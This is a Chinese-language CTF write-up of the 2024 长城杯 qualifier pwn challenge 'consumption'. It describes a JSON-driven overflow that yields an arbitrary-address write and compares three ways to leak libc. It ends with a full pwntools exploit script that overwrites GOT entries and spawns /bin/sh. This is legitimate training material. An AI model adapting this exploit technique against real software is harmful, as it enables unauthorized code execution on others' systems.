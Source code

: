 ```yaml
---
date: 2024-8-22 10:22:03
layout: post
title: 2024 长城杯初赛 consumption writeup
subtitle: 
description: >-
    记录一下一点奇怪的 leak
image: >-
  /assets/img/uploads/consumption.png
optimized_image: >-
  /assets/img/uploads/consumption.png
category: ctf
tags:
  - ctf
  - pwn
  - 2024 长城杯
  - consumption
author: rosayxy
paginate: true
---
```


# 2024 长城杯初赛 consumption writeup
赛场上把两道简单 pwn 题做了，这道题找到了 crash 点，队友把这道题出了qaq，当时和队友讨论的时候有一些踩坑的思路，就在这里记一下了 hhh（但是这个题也是简单题啊xsl）    
当时一直在思考怎么 leak libc，**因为是32位的程序，所以爆破代价较低**，直接采用爆破的方式了，直到晚上又和队友讨论 想了两种 leak 的方法并且都打出来了        
从一年前出 THUCTF 题的时候就在想任意地址写任意值的打法，这道题就是如此    

## 题目
一开始在看常规的堆题漏洞，都没发现，在 main 函数中注意到一个比较奇怪的点
```c
 char s[1280]; // [esp+28h] [ebp-100Ch] BYREF
  int v13[64]; // [esp+528h] [ebp-B0Ch] BYREF
  _DWORD stack_buf[643]; // [esp+628h] [ebp-A0Ch] BYREF

  stack_buf[641] = &argc;
  stack_buf[640] = __readgsdword(0x14u);
  init();
  while ( 1 )
  {
    menu();
    v13[0] = (int)stack_buf;                    // stack_buf
    __isoc99_scanf("%4094s", s);
    // ...

```
这里看到我们写的 json 的内容可以覆盖到先前往 v13[0] 写入的 stack_buf 内容   
在后续的 add 函数中，会把 json 中的 size 域写入 *stack_ptr，然后根据 size 是否合法去分配堆空间，写内容或者返回     
所以当我们把 stack_buf 覆盖为一个已知地址时，可以写任意值，从而**算是有一个任意地址写任意值原语**     
这里踩到的一个坑是：一开始先入为主的不知道为啥认为那个输出"out!!"就返回了的函数具有 `exit` 功能，可能是受 main 函数中 `puts_out(); exit(-1);` 的影响，之前也有题目这样认错过，可能是 rosayxy 的奇怪脑回路吧哈哈哈    
![alt_text](/assets/img/uploads/consumption1.jpg)
## 思路
- 赛场上思路：先把 `memcpy` 覆盖为 `ret`，       
  否则后面写 libc 地址的时候，有 **stack_ptr=libc_addr ,因为 `**controllable_addr<0`，所以会继续执行如下代码
```c
  heap[v4] = (int)malloc(**stack_ptr);
  length[v4] = **stack_ptr;
  memcpy((void *)heap[v4], content, **stack_ptr);
```
而 malloc 可能给不到这么大的空间，会返回一个 nullptr，所以 memcpy 的第一个参数为空，直接 segfault 了       
然后把 free@got 改成 libc system address，进行 libc 地址爆破 就可以了     

- rosayxy 思路：
  - 第一次漏洞利用：改 memcpy 为 puts 函数 第二轮正常 malloc 泄露 libc 地址（前提是在一开始搞一个 unsorted bin），泄露堆上 libc 地址
  - 把 memcpy 改成 ret，不然 puts 空指针也会 segfault
  - 第二次漏洞利用： free@got 覆盖为 system
- 队友 k4ra5u 赛后思路：
  - 把 bss 段 heap 中的堆指针改成 got 表地址，直接用它自带的 show 函数泄露
  - free@got 覆盖为 system
  - 感觉应该是最巧妙的一种思路哈哈哈 ~ tql

## exp
rosayxy 思路的 exp
```py
from time import sleep
from pwn import*
context(arch='i386', os='linux', log_level='debug')
json={"idx": 1,"choice": "1","size": "100","content": "This is the content for option A."}
p=process("./consumption")
libc=ELF("./libc.so.6")
# gdb.attach(p)
# pause()

# 第一次改 memcpy 为 printf 第二轮正常 malloc 泄露 libc 地址（前提是在一开始搞一个 unsorted bin）
# 第二次写 free_got 为 system

p.recvuntil("5.exit\t\n")
payload = b'{"choice":"1","idx":0,"size":"1023","content":"aaaaa"}'
p.sendline(payload)
p.recvuntil("5.exit\t\n")
payload=b'{"choice":"1","idx":1,"size":"32","content":"/bin/sh;"}'
p.sendline(payload)
payload=b'{"choice":"2","idx":0,"size":"32","content":"aaaaa"}'
# elevate vuln

p.recvuntil("5.exit\t\n")
p.sendline(payload)
payload = b'{"choice":"1","idx":0,"size":"134517248","content":"","blabla":"' # size 写成 puts 地址
payload = payload.ljust(1280,b'A')
payload +=p32(0x8051AB4)
payload +=b'"}'
p.recvuntil("5.exit\t\n")
p.sendline(payload)
# gdb.attach(p)
# pause()
p.recvuntil("5.exit\t\n")
payload = b'{"choice":"1","idx":2,"size":"8","content":"a"}'
p.sendline(payload)

leak=u32(p.recv(4))
print(hex(leak))
# f7f6d778 0xf7d84000
libc_base = leak - 0xf6d778+0xd84000
print(hex(libc_base))
system=libc_base+libc.symbols['system']
free_got=0x8051AB0
# 改 got 表
# gdb.attach(p)
# pause()

payload = b'{"choice":"1","idx":0,"size":"134518550","content":"","blabla":"' # size 写成 retn 地址 防止后面 crash 了
payload = payload.ljust(1280,b'A')
payload +=p32(0x8051AB4)
payload +=b'"}'

p.recvuntil("5.exit\t\n")
p.sendline(payload)

p.recvuntil("5.exit\t\n")
payload=b'{"choice":"1","idx":0,"size":"'+str(-0x100000000+system).encode("latin-1")+b'","content":"","blabla":"'
payload = payload.ljust(1280,b'A')
payload +=p32(free_got)
payload +=b'"}'
p.sendline(payload)

p.recvuntil("5.exit\t\n")
payload=b'{"choice":"2","idx":1,"size":"8","content":"a"}'
p.sendline(payload)
p.interactive()
```

## 总结
本题总体不难，但是可能还是题练少了熟练度不太够    
感觉自由度挺高的，玩一些花活还是开心的qaq    
题目完整链接见 [这里](/attachments/consumption.zip)    